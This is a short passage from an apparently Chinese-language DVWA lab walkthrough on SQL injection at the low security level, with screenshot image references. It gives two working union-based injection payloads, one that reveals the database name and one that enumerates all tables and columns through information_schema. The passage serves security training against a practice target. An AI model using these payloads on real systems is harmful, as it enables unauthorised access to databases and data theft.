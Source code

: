 <img src="../images/dvwa_lib/sql_inject_low.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="80px"/>

获取数据库名:

注意下面这个注入语句，是实验出来的，一开始是没有select 1的，1是为了合乎查询数据要形成两列而写的，不然报错无法查询。

```sql
1' union select 1, database() ; #
```

<img src="../images/dvwa_lib/sql_inject_low_database_name.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="100px"/>

可以知道当前数据库是：dvwa；

查询一下dvwa所有的表以及字段

```sql
1' union select table_name, column_name from information_schema.columns where table_schema="dvwa"; #
```

<img src="../images/dvwa_lib/sql_inject_low_dvwa_table_1.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="400px"/>
